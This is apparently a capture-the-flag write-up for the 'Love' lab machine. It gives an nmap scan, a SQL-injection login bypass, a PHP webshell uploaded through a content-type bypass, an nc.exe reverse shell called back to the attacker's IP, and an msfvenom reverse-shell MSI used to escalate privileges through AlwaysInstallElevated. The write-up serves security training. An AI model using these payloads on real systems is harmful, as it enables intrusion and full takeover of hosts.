- Machine Name: Love
- OS Type: Windows
- Difficulty: Easy

```bash
# Nmap 7.95 scan initiated Tue May  6 20:59:23 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up, received echo-reply ttl 127 (0.35s latency).
Scanned at 2025-05-06 20:59:24 IST for 387s
Not shown: 65044 closed tcp ports (reset), 472 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/emailAddress=roy@love.htb/organizationalUnitName=love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/emailAddress=roy@love.htb/organizationalUnitName=love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
| -----BEGIN CERTIFICATE-----
| MIIDozCCAosCFFhDHcnclWJmeuqOK/LQv3XDNEu4MA0GCSqGSIb3DQEBCwUAMIGN
| MQswCQYDVQQGEwJpbjEKMAgGA1UECAwBbTEPMA0GA1UEBwwGbm9yd2F5MRYwFAYD
| VQQKDA1WYWxlbnRpbmVDb3JwMREwDwYDVQQLDAhsb3ZlLmh0YjEZMBcGA1UEAwwQ
| c3RhZ2luZy5sb3ZlLmh0YjEbMBkGCSqGSIb3DQEJARYMcm95QGxvdmUuaHRiMB4X
| DTIxMDExODE0MDAxNloXDTIyMDExODE0MDAxNlowgY0xCzAJBgNVBAYTAmluMQow
| CAYDVQQIDAFtMQ8wDQYDVQQHDAZub3J3YXkxFjAUBgNVBAoMDVZhbGVudGluZUNv
| cnAxETAPBgNVBAsMCGxvdmUuaHRiMRkwFwYDVQQDDBBzdGFnaW5nLmxvdmUuaHRi
| MRswGQYJKoZIhvcNAQkBFgxyb3lAbG92ZS5odGIwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQDQlH1J/AwbEm2Hnh4Bizch08sUHlHg7vAMGEB14LPq9G20
| PL/6QmYxJOWBPjBWWywNYK3cPIFY8yUmYlLBiVI0piRfaSj7wTLW3GFSPhrpmfz0
| 0zJMKeyBOD0+1K9BxiUQNVyEnihsULZKLmZcF6LhOIhiONEL6mKKr2/mHLgfoR7U
| vM7OmmywdLRgLfXN2Cgpkv7ciEARU0phRq2p1s4W9Hn3XEU8iVqgfFXs/ZNyX3r8
| LtDiQUavwn2s+Hta0mslI0waTmyOsNrE4wgcdcF9kLK/9ttM1ugTJSQAQWbYo5LD
| 2bVw7JidPhX8mELviftIv5W1LguCb3uVb6ipfShxAgMBAAEwDQYJKoZIhvcNAQEL
| BQADggEBANB5x2U0QuQdc9niiW8XtGVqlUZOpmToxstBm4r0Djdqv/Z73I/qys0A
| y7crcy9dRO7M80Dnvj0ReGxoWN/95ZA4GSL8TUfIfXbonrCKFiXOOuS8jCzC9LWE
| nP4jUUlAOJv6uYDajoD3NfbhW8uBvopO+8nywbQdiffatKO35McSl7ukvIK+d7gz
| oool/rMp/fQ40A1nxVHeLPOexyB3YJIMAhm4NexfJ2TKxs10C+lJcuOxt7MhOk0h
| zSPL/pMbMouLTXnIsh4SdJEzEkNnuO69yQoN8XgjM7vHvZQIlzs1R5pk4WIgKHSZ
| 0drwvFE50xML9h2wrGh7L9/CSbhIhO8=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown      syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-05-06T15:56:57+00:00; +21m09s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a:2ba6:8ef4:7568:f99d:d6f4:aaa2:03b5
| SHA-1: 84ef:d922:a70a:6d9d:82b8:5bb3:d04f:066b:12f8:6e73
| -----BEGIN CERTIFICATE-----
| MIIFBTCCAu2gAwIBAgIQQD+VWjjYeaVAiweoWrOJXjANBgkqhkiG9w0BAQsFADAP
| MQ0wCwYDVQQDDARMT1ZFMB4XDTIxMDQxMTE0MzkxOVoXDTI0MDQxMDE0MzkxOVow
| DzENMAsGA1UEAwwETE9WRTCCAiIwDQYJKoZIhvcNAQEBBQADggIPADCCAgoCggIB
| APC54+VMM+g9yynvO9x5UWpskpl8oxYcplv/zck10LeamyoRMCoOb6+lPhokbydf
| 1cj/td1WjOoCkE22w8KBXt+GkBtYp1AuaiQuUWZbSU1TfKLgGTB+jqcn6L8oFdpm
| MMl1rdgW/dDLF4WRSgPd1bwSl1JrgM2ETbQNbuE+pPkUAOwQp9W2/YcSCPAc+a03
| bntUxAyVe/U4xm9GJYTliUGZCc4KY74ZhiIoE9N+qW9wH+THyTcKYFo6acCYK3OT
| NFxj2NVB34YSOaGwoJDfHOdt6q8hQSBk2MLcIlFMYpzyk6guxO6CYucufqPUhux8
| j8foDhPOQr4eg8L2WZq0mF2k0Owt+FPaFCQpq8Cuk3wxkrkHAlwzmxMjZUhO59Z7
| p7cSQt5JtDrSIghP9nePFkz1ARaUE4ifUfWb7ZhX5ZI2sWD7y5ilgK/+EJRUs8Qr
| aiNJQhr2W+Lu8Q8C821LrhQ8srRbV3APlj0jysYzTcerksSmA4L2NYEjdYuIkHNh
| VH7IUwAfyQCKhT9Z4l9TMmu0w84jvFV/e4PYrXe7W3jNquKI8+FvgAtj7crDkX6x
| ouN13d3Z12FsPFZB8S9cFhEnMUT0VcPqx4on6oD1+iD3dkPYi907kHjvHQqc43yZ
| vRSJBNy12LsX9bDyeew1jWBLqhdh0fApp+5LSKyEanENAgMBAAGjXTBbMA4GA1Ud
| DwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAVBgNVHREEDjAMggRMT1ZF
| ggRMb3ZlMB0GA1UdDgQWBBQNJyWWYTVg7yDEB8RiCpGkBlLzcjANBgkqhkiG9w0B
| AQsFAAOCAgEAOtD1tPlQAsAozmZxFGc7PiMkJpZbpS31Hb32/aFwTxeN/7VEmTPM
| +FyIo+ZxgL+GD6SGWtpunCGs2Hms3lbSxnPNPbdcaG6whP12Ih/xGuQEbXVq6uY3
| fmCL/zIHthIjDPbgvtrC0xB/1kioMrDdGK1jp1F9q1cd+9P3cTPXgpekTzcFixGF
| BkQTM0ty8FjZnwTYwtAJ7RcxbzhIGi4YlJGIBOi98XvParnR2co2XhR+gBBPhppC
| 0zKscOXtQrOyWymrq1XSEdFhExznQREXkGsUX9Ogw8yTdREt9jdlijjtQGISBlwG
| 807Ru8m6HeO35dhUp3fS1ZOQ94Zlmls8Uw4F0slQ5v44rhhbOziy3fcb63zSvFJ1
| jzk5yEoxER7tMiWrxCniGSI7kIs0ACGEWHbsbjfQuGVvTe2S/yBmUbCSuZPS9r1X
| w3EPapovLDMmx8PBLMXDa75bBE+si/3xS4w8OIepTrk+oajAWPjHSFrt6QRRI9Mv
| L1UEoxV1K7amnTybXb66kpvucZz0pQYVuRypOYLlFuFMC2vj8M/64Hfb5OhFG+6p
| RtFRdYl9s/H+R+Y+fB4o9Tf5vMpYwOCrBfTEGvm4JLBRGXn6f0ODcGqwVYVWyPEo
| 4pv8jZSiNJsmm6gsQXR4fLIPGuNjwmxJmm51Itv0Lb+FQogRk/9I0AI=
|_-----END CERTIFICATE-----
7680/tcp  open  pando-pub?   syn-ack ttl 127
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46453/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 55564/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 21885/udp): CLEAN (Failed to receive data)
|   Check 4 (port 53034/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h06m09s, deviation: 3h30m01s, median: 21m08s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-06T15:56:42
|_  start_date: N/A
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-06T08:56:36-07:00

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  6 21:05:51 2025 -- 1 IP address (1 host up) scanned in 387.53 seconds
```

## Enumeration

### Port 80/HTTP

port 80 is open on target machine let’s visit the application on web browser



upon searching for known exploit i found following vulnerabilities

- https://www.exploit-db.com/exploits/49843
- https://www.exploit-db.com/exploits/49445

let’s first try SQL injection to bypass authentication in exploit we found the /admin/login.php url

password = admin

username = `dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;--` 

create a shell.php with following contents

```bash
<?php echo system($_GET['cmd']); ?>
```





go to **Voters** section and then add new voter



select shell.php in photo and select **save**

intercept request with burpsuite and then change content-type to `image/png` 



forward the request and then go to [`http://10.10.10.239/images/shell.php?cmd=whoami`](http://10.10.10.239/images/shell.php?cmd=whoami) to access the webshell

```bash

```



then execute the nc.exe to get shell

```bash
http://10.10.10.239/images/shell.php?cmd=\users\public\nc.exe%2010.10.14.17%20443%20-e%20cmd
```



checking permissions of the user

```bash
whoami /priv
```



membership of user



interesting directory in C: root folder



running winpeas we found AlwaysInstallElevated is set to true 



we’ll create a malicious msi in using msfvenom and get the shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=445 -f msi > shell.msi
```

transfer the shell.msi to target machine, start the netcat listener and run the shell.msi

